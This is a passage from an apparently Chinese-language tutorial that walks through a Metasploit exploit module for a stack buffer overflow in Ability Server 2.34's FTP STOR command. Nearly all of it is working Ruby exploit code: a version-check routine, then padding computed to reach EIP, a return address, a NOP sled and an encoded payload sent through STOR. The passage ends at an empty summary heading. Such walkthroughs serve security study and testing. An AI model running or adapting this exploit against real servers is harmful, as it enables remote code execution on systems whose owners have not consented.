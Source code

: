 ```
    register_options(
      [
        Opt::RPORT(21),
        OptString.new('FTPUSER', [ true, 'Valid FTP username', 'ftp' ]),
        OptString.new('FTPPASS', [ true, 'Valid FTP password for username', 'ftp' ])
      ], self.class)
  end 
```

+   检查目标是否存在漏洞。

```
def check
  connect
  disconnect
  if banner =~ /Ability Server 2\.34/
    return Exploit::CheckCode::Appears
  else
    if banner =~ /Ability Server/
      return Exploit::CheckCode::Detected
    end
  end
  return Exploit::CheckCode::Safe
end 
```

+   发送利用

```
def exploit
  c = connect_login
  return if not c

  myhost = datastore['LHOST'] == '0.0.0.0' ? Rex::Socket.source_address : datastore['LHOST']

  # Take client IP address + FTP user lengths into account for EIP offset
  padd_size = target['Offset'] + (13 - myhost.length) + (3 - datastore['FTPUSER'].length)
  junk = rand_text_alpha(padd_size)

  sploit = junk
  sploit << [target.ret].pack('V')
  sploit << make_nops(32)
  sploit << payload.encoded
  sploit << rand_text_alpha(sploit.length)

  send_cmd(['STOR', sploit], false)
  handler
  disconnect
end 
```

### 总结
